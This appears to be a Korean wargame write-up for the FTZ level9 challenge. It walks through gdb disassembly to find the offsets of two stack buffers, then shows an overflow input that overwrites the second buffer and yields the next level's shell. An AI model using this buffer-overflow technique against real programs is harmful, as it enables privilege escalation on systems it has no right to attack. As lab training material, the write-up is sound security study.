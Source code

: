 
디버깅을 하며 옆에 C 소스코드를 같이 두며 보는것이 이해가 더 빠를 것이다.

하나하나 살펴보자.

가장 왼쪽의 0x~~~라고 되어 있는건 프로그램이 실행되는 주소값

두번째는 함수부터 얼마나 떨어져 있는지 알려주는 주소값

세번째는 어셈블리 명령어

네번째는 실행하는 함수나 인좌 등등을 표시한다.


```bash
0x08048443 <main+35>:   push   ds:0x8049698 
0x08048449 <main+41>:   push   0x28  
0x0804844b <main+43>:   lea    eax,[ebp-40]  
0x0804844e <main+46>:   push   eax  
0x0804844f <main+47>:   call   0x8048320  <fgets>
```


우선 이것을 보자. C코드에서는 fgets(buf,40,stdin);의 역할을 한다.

어셈블리에서는 C에서 보내주는 인좌의 반대 순서대로 쓰인다.


가장 위의 main+35 :   push   ds:0x8049698 가 stdin.

main+41 :   push   0x28  가 40.

main+43:   lea    eax,[ebp-40] 이 buf이다.

그러므로 buf의 주소값은 [ebp-40]이 되는 것이다.


```bash
0x0804845a <main+58>:   push   0x2 
0x0804845c <main+60>:   push   0x804856a 
0x08048461 <main+65>:   lea    eax,[ebp-24] 
0x08048464 <main+68>:   push   eax 
0x08048465 <main+69>:   call   0x8048330  <strncmp>
```


이것은 strncmp(buf2,"go",2)의 기능을 한다.

위와 같이 인좌가 거꾸로 되어 있는 것이다.

main+58:   push   0x2 가 2.

main+60:   push   0x804856a 가 "go"의 주소값.

main+65:   lea    eax,[ebp-24] 가 buf2의 주소값인 것이다.

이렇게 buf와 buf2의 주소값을 모두 알게 되었다.

그럼 오버플로우 시켜 보자.


```bash
[level9@ftz level9]$ cd /usr/bin 
[level9@ftz bin]$ ./bof 
It can be overflow : aaaaaaaaaaaaaaaago 
Good Skill! 
[level10@ftz bin]$
```
buf2의 주소 : ebp-24
buf의 주소 : ebp-40

